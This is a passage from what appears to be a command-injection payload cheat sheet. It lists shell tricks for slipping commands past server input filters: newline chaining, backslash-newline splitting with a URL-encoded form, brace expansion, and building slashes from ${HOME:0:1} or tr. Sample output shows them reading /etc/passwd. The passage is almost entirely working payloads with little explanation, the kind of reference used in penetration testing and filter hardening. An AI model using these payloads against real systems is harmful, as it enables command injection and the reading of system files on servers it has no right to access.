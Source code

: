 ### Bypass With A Line Return

Commands can also be run in sequence with newlines

```bash
original_cmd_by_server
ls
```

### Bypass With Backslash Newline

* Commands can be broken into parts by using backslash followed by a newline

  ```powershell
  $ cat /et\
  c/pa\
  sswd
  ```

* URL encoded form would look like this:

  ```powershell
  cat%20/et%5C%0Ac/pa%5C%0Asswd
  ```

### Bypass With Tilde Expansion

```powershell
echo ~+
echo ~-
```

### Bypass With Brace Expansion

```powershell
{,ip,a}
{,ifconfig}
{,ifconfig,eth0}
{l,-lh}s
{,echo,#test}
{,$"whoami",}
{,/?s?/?i?/c?t,/e??/p??s??,}
```

### Bypass Characters Filter

Commands execution without backslash and slash - linux bash

```powershell
swissky@crashlab:~$ echo ${HOME:0:1}
/

swissky@crashlab:~$ cat ${HOME:0:1}etc${HOME:0:1}passwd
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ echo . | tr '!-0' '"-1'
/

swissky@crashlab:~$ tr '!-0' '"-1' <<< .
/

swissky@crashlab:~$ cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd
root:x:0:0:root:/root:/bin/bash
```
